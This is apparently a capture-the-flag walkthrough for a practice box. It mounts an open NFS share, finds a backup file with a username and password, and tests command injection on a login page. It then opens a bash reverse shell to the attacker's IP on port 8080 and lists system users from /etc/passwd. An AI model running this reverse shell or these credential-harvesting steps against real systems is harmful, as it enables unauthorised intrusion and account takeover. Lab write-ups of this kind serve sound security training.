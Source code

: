 ```bash
$ showmount -e $IP
Export list for 10.10.182.84:
/var/nfs/general *
```


```bash
mkdir /tmp/nfs
sudo mount -o rw ip:/var/nfs/general /tmp/nfs
cd /tmp/nfs && ls -la

```

## Found Credential.bak in it

```bash
paradoxial.test
ShibaPretzel79
```

# Logged on /login

![Pasted image 20210416073432](https://user-images.githubusercontent.com/68326057/115083002-652cb580-9f24-11eb-9e05-ec6b436ada08.png)


## Test-1

```bash
sleep 5 
PASSED
```

## TEST-2

```bash
bash -c 'bash -i >& /dev/tcp/10.9.53.25/8080 0>&1'
Got shell
```

**paradox@cchq:~$**

# paradox

## Users
```bash
root:x:0:0:root:/root:/bin/bash
tux:x:1000:1000:tux:/home/tux:/bin/bash
szymex:x:1001:1001::/home/szymex:/bin/bash
varg:x:1002:1002::/home/varg:/bin/bash
paradox:x:1003:1003::/home/paradox:/bin/bash

```
